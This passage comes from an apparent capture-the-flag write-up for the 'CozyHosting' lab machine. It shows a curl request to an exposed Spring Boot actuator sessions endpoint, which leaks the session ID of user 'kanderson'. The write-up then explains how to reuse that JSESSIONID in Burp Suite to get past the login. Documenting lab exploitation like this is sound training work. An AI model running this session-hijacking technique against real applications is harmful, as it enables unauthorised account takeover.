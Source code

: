 There is an interesting one, sessions, maybe sessions can return some active session that would allow us to bypass the authentication form.




```bash
curl -X GET http://cozyhosting.htb/actuator/sessions | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   198    0   198    0     0    747      0 --:--:-- --:--:-- --:--:--   747
{
    "34C1F386F75DA82A05F4807EA318E0DF": "UNAUTHORIZED",
    "6B496FD544CB753F6D294E1127064FED": "kanderson",
    "DCDCCA5D15C63967999EB09C17EDBE00": "UNAUTHORIZED",
    "F757FC42C4339352AD09C44236C0116C": "UNAUTHORIZED"
}
```

## EXPLOITATION

The actuator "session" is returning  an active user "kanderson" and its JSESSIONID 

With this info, we could log in the platform and bypass the authentication mechanism.

![](./assets/images/cozyhosting_exploit01.jpg)

So we can use burp suite to capture the request and update the JSSESIONID, with kanderson's ssessionid.

![](./assets/images/cozyhosting_exploit02.jpg)
